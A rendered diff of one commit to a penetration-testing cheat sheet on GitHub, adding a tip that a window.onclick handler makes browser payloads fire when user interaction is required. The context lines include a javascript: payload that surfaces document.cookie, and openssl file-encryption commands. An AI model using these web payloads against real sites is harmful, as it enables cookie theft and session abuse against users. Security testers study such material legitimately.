

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -2068,3 +2068,11 @@ javascript:var {}={}; throw document.cookie
 openssl aes-256-cbc -base64 -pbkdf2 -in <infile> -out <infile>.enc -pass pass:secret
 openssl aes-256-cbc -base64 -pbkdf2 -d -in <infile>.enc -out <infile>.new -pass pass:secret
 ```
+
+### Increasing Payload Success When Manual Interaction is Required
+- setting an `onclick` event handler on the `window` object itself is highly successful when manual interaction is required for a payload to trigger.
+```
+window.onclick = () => {
+    window.open('https://vulnerable-website.com/login/sso');
+}
+```
````
